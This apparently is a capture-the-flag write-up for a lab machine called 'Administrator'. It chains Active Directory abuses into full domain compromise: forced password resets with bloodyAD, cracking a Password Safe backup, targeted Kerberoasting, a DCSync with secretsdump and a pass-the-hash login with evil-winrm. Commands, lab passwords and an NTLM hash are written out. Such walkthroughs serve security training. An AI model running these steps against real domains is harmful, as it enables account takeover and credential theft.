 ```yaml
---
description: 'Username: Olivia Password: ichliebedich'
---
```


# 📦 Administrator

I start off by scanning for open ports:

<figure><img src="../../../.gitbook/assets/image (10) (1) (2).png" alt=""><figcaption></figcaption></figure>

I quickly get a list of usernames:

<figure><img src="../../../.gitbook/assets/image (11) (1) (2).png" alt=""><figcaption></figcaption></figure>

And the groups on the domain:

<figure><img src="../../../.gitbook/assets/image (12) (1) (2).png" alt=""><figcaption></figcaption></figure>

the creds that were given to us have winrm rights so let's connect then we launch bloodhound python:

```
bloodhound-python -u Olivia -p 'ichliebedich' -c All -d administrator.htb -ns 10.129.107.16
```

And start a bloodhound instance:

```
neo4j console
```

while launching our bloodhound collector we see a new host that we can add to hosts ->

<figure><img src="../../../.gitbook/assets/image (13) (1).png" alt=""><figcaption></figcaption></figure>

and i launch bloodhound without root!!

I mark user olvia as owned and continue by looking at the node info of olivia and seeing she as First degree object control GenericAll over michael:

<figure><img src="../../../.gitbook/assets/image (14) (1).png" alt=""><figcaption></figcaption></figure>

and michael has ForceChangePassword over Benjamin:

<figure><img src="../../../.gitbook/assets/image (15) (1).png" alt=""><figcaption></figcaption></figure>

Knowing this we can install bloodyAD and abuse those rights:

<figure><img src="../../../.gitbook/assets/image (16) (1).png" alt=""><figcaption></figcaption></figure>

```
bloodyAD -u "olivia" -p "ichliebedich" -d "Administrator.htb" --host "10.129.107.16" set password "Michael" "Password1"
bloodyAD -u "Michael" -p "Password1" -d "Administrator.htb" --host "10.129.107.16" set password "Benjamin" "Password1"
```

I'll have to test this tool later on:

{% embed url="https://github.com/CravateRouge/autobloody" %}

Now we can confirm we have succesfully changed the password:

<figure><img src="../../../.gitbook/assets/image (17) (1).png" alt=""><figcaption></figcaption></figure>

So i restart my enumeration process with these credentials and end up connecting to an FTP instance with the creds of Benjamin

<figure><img src="../../../.gitbook/assets/image (17).png" alt=""><figcaption></figcaption></figure>

After googling the extension, i found the tool pwsafe2john and used it to get a hash out of this file:

```
pwsafe2john Backup.psafe3 > backuphash.txt
john backuphash.txt
```

Which gave me password: `tekieromucho`

Then i started to look how to open the file:

{% embed url="https://installati.one/install-passwordsafe-kalilinux/#google_vignette" %}

Then i upload the file and see 3 users:

<figure><img src="../../../.gitbook/assets/image (2) (1) (2) (1).png" alt=""><figcaption></figcaption></figure>

I'm able to see the passwords just like that:

<figure><img src="../../../.gitbook/assets/image (3) (1) (2) (1).png" alt=""><figcaption></figcaption></figure>

I quickly see which one is the path to follow:

<figure><img src="../../../.gitbook/assets/image (4) (1) (2) (1).png" alt=""><figcaption></figcaption></figure>

On bloodhound we see that emily has GenericWrite on Ethan:

<figure><img src="../../../.gitbook/assets/image (5) (1) (2) (1).png" alt=""><figcaption></figcaption></figure>

I start iff looking at some attack vectors:

{% embed url="https://www.thehacker.recipes/assets/DACL%20abuse%20mindmap.CnS4bNaY.png" %}

I try GetUserSpns but it does not work, then i find a tool from shutdown that tries to Set an SPN and abuse it for us:

{% embed url="https://github.com/ShutdownRepo/targetedKerberoast/blob/main/targetedKerberoast.py" %}

<figure><img src="../../../.gitbook/assets/image (6) (1) (2).png" alt=""><figcaption></figcaption></figure>

i had the following problem: \[!] Kerberos SessionError: KRB\_AP\_ERR\_SKEW(Clock skew too great) that happens when the time difference between your **attacking machine** and the **Domain Controller (DC)** is too large (usually more than 5 minutes). so i had to sync my time with DC:

```
sudo ntpdate -u 10.129.107.16
python targetedKerberoast.py -u "emily" -p "UXLCI5iETUsIBoFVTj8yQFKoHjXmb" -d "administrator.htb" --dc-ip 10.129.107.16
```

Then i put my hash in a file and crack it with john and end up with `limpbizkit`

<figure><img src="../../../.gitbook/assets/image (7) (1) (2).png" alt=""><figcaption></figcaption></figure>

We are at the last step of this box i thing and we have DCsync rights on Administrator.htb so let's have fun:

{% embed url="https://www.thehacker.recipes/ad/movement/credentials/dumping/dcsync#dcsync" %}

<figure><img src="../../../.gitbook/assets/image (8) (1) (2).png" alt=""><figcaption><p>secretsdump.py -outputfile 'dcsync.txt' administrator.htb/ethan:limpbizkit@10.129.107.16</p></figcaption></figure>

I can now do passthehash to get a session:

<figure><img src="../../../.gitbook/assets/image (9) (1) (2).png" alt=""><figcaption></figcaption></figure>

```
evil-winrm -i 10.129.107.16 -u administrator -H 3dc553ce4b9fd20bd016e098d2d2fd2e
```

